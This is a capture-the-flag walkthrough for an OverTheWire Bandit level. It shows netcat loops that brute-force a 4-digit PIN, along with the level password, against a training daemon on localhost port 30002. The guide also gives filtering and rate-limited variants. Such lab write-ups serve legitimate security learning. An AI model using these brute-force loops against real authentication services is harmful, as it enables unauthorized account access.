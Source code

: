 #bandits #linux #linux_commands #overthewire #shell #scripting 
### Level Goal

A daemon is listening on port 30002 and requires the current level's password followed by a 4-digit PIN. You must brute-force the correct PIN and submit the credentials in the required format to retrieve the next password.

---

### Commands You May Need

`nc`, `for`, `echo`, `grep`, `cut`, `sleep`, `2>/dev/null`

---

### Key Details

- Service runs on `localhost` at **port 30002**.
    
- Format expected by the service:
    
    ```
    <password><space><4-digit PIN>
    ```
    
- You don’t need any rate-limiting delay unless otherwise noted.
    

---

### Step 1: Test Service Behavior with `netcat`

Before building a brute-force loop, it helps to manually connect and inspect how the service responds:

```bash
echo test | nc localhost 30002
```

This results in an error message indicating the required format. Based on the message returned, you can infer the expected input syntax:

```bash
echo "<password> 1234" | nc localhost 30002
```

This trial-and-error method helps confirm that the service wants a **password followed by a space and a 4-digit PIN**.

---

### Method 1: Brute-force using a loop and `nc`

```bash
for i in {0000..9999}; do
  echo "<password> $i";
done | nc localhost 30002
```

**Note:** This method may generate too much noise if the service prints error messages. You can silence those using:

```bash
(for i in {0000..9999}; do echo "<password> $i"; done | nc localhost 30002) 2>/dev/null
```

---

### Method 2: Filtering for Success Response

To avoid scrolling through all failed attempts:

```bash
(for i in {0000..9999}; do echo "<password> $i"; done | nc localhost 30002) 2>&1 | grep -v "Wrong"
```

This will hide the failed attempts and show only the correct one.

---

### Method 3: Slower but Controlled Brute-force

```bash
for i in {0000..9999}; do
  echo "<password> $i" | nc localhost 30002 2>/dev/null
  sleep 0.05
done
```

- Adds a delay to avoid flooding the service.
    

---

### Explanation of Key Components

- `for i in {0000..9999}`: Loops through all 4-digit numbers.
    
- `nc localhost 30002`: Opens a TCP connection to the service.
    
- `2>/dev/null`: Redirects stderr to avoid clutter.
    
- `grep -v` or `grep -v "Wrong"`: Filters out lines containing errors.
    

---

### Helpful Reading Material

- [Netcat — Wikipedia](https://en.wikipedia.org/wiki/Netcat)
    
- `man nc`
    
- Bash Redirection: `man bash`
    

---

### Next:

[[Bandit Level 25 → Level 26]]